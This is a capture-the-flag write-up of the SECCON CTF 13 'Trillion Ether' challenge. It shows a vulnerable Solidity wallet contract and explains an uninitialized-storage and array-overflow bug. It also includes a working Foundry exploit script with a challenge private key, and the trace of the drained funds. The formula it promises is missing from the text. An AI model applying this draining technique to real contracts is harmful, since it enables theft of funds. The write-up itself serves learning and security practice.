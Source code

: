 ```yaml
---
layout: post
title: "SECCON CTF 13 Quals Writeup"
categories: 
  - Writeup
  - blockchain
author: Songhyun Bae
---
```


I recently participated in the SECCON CTF 13 Qualifiers with my team, CyKor. I solved the “Trillion Ether” challenge in the blockchain category. I’m planning to write about it on my blog.


## **Trillion Ether**
> Get Chance!

Below is the code for the challenge. The contract allows the creation of wallets and includes `withdraw` and `transfer` functionalities. To solve the challenge, it is necessary to drain all the funds from the contract.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.28;

contract TrillionEther {
    struct Wallet {
        bytes32 name;
        uint256 balance;
        address owner;
    }

    Wallet[] public wallets;

    constructor() payable {
        require(msg.value == 1_000_000_000_000 ether);
    }

    function isSolved() external view returns (bool) {
        return address(this).balance == 0;
    }

    function createWallet(bytes32 name) external payable {
        wallets.push(_newWallet(name, msg.value, msg.sender));
    }

    function transfer(uint256 fromWalletId, uint256 toWalletId, uint256 amount) external {
        require(wallets[fromWalletId].owner == msg.sender, "not owner");
        wallets[fromWalletId].balance -= amount;
        wallets[toWalletId].balance += amount;
    }

    function withdraw(uint256 walletId, uint256 amount) external {
        require(wallets[walletId].owner == msg.sender, "not owner");
        wallets[walletId].balance -= amount;
        payable(wallets[walletId].owner).transfer(amount);
    }

    function _newWallet(bytes32 name, uint256 balance, address owner) internal returns (Wallet storage wallet) {
        wallet = wallet;
        wallet.name = name;
        wallet.balance = balance;
        wallet.owner = owner;
    }
}
```

The most apparent bug exists in the _newWallet function, where an uninitialized storage variables bug occurs. The wallet variable is declared as storage but is not properly initialized before assignment. Consequently, the data is written starting from storage slot 0.

```
function _newWallet(bytes32 name, uint256 balance, address owner) internal returns (Wallet storage wallet) {
    wallet = wallet;
    wallet.name = name;
    wallet.balance = balance;
    wallet.owner = owner;
}
```

In the TrillionEther contract, storage slot 0 holds the wallets array. Being a dynamic array, this slot stores the array’s length, and the actual elements are stored starting from keccak(0).

```
$ forge inspect TrillionEther storage-layout --pretty
| Name    | Type                          | Slot | Offset | Bytes | Contract                            |
|---------|-------------------------------|------|--------|-------|-------------------------------------|
| wallets | struct TrillionEther.Wallet[] | 0    | 0      | 32    | src/TrillionEther.sol:TrillionEther |
```

The wallets array consists of the Wallet struct, which occupies three storage slots for each element:
```
struct Wallet {
    bytes32 name;
    uint256 balance;
    address owner;
}

Wallet[] public wallets;
```

As a result, the storage slot for a new element in the array can be calculated using the formula:

By manipulating the array length in slot 0, we can cause an integer overflow during the multiplication step. This overflow allows us to overwrite the balance field of the Wallet struct with the owner address. By strategically creating wallets and controlling the overflow, we can target specific storage slots, overwrite critical data, and eventually drain all funds.

### Solution Script

Below is the exploit script that drains the contract:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {console} from "forge-std/console.sol";
import {Script} from "forge-std/Script.sol";

import {TrillionEther} from "../src/TrillionEther.sol";

contract solve is Script {
    uint256 playerPrivateKey;
    address player;

    TrillionEther problemInstance;

    function setUp() external {
        string memory rpcUrl = "http://trillion-ether.seccon.games:8545/fcf85a4f-6b2f-4f81-aef5-e966d043277f";
        playerPrivateKey = 0x6d9be7bb251e23e43ac737e9ce272c97d11eb2d8164b70fd92242a076eab0d30;
        address problemContract = 0x775e072738D978416d8bc7805B8Cf4f34C0Bf80F;

        player = vm.addr(playerPrivateKey);
        vm.createSelectFork(rpcUrl);

        problemInstance = TrillionEther(problemContract);
    }

    function run() external {
        vm.startBroadcast(playerPrivateKey);

        problemInstance.createWallet{value: 0}(bytes32(uint256(1))); 
        problemInstance.createWallet{value: 0}(bytes32(uint256(38597363079105398474523661669562635951089994888546854679819194669304376546646)));
        
        problemInstance.withdraw(1, address(problemInstance).balance);

        vm.stopBroadcast();
    }
}
```

```
$ forge script solve -vvvv --broadcast
[⠊] Compiling...
No files changed, compilation skipped
Traces:
  [156386] solve::run()
    ├─ [0] VM::startBroadcast(<pk>)
    │   └─ ← [Return] 
    ├─ [93340] 0x775e072738D978416d8bc7805B8Cf4f34C0Bf80F::createWallet(0x0000000000000000000000000000000000000000000000000000000000000001)
    │   └─ ← [Stop] 
    ├─ [43240] 0x775e072738D978416d8bc7805B8Cf4f34C0Bf80F::createWallet(0x5555555555555555555555555555555555555555555555555555555555555556)
    │   └─ ← [Stop] 
    ├─ [8328] 0x775e072738D978416d8bc7805B8Cf4f34C0Bf80F::withdraw(1, 1000000000000000000000000000000 [1e30])
    │   ├─ [0] 0x6B4df773CB9AdA0515BBC8F4eB9e57C18cE54152::fallback{value: 1000000000000000000000000000000}()
    │   │   └─ ← [Stop] 
    │   └─ ← [Stop] 
    ├─ [0] VM::stopBroadcast()
    │   └─ ← [Return] 
    └─ ← [Stop] 
```

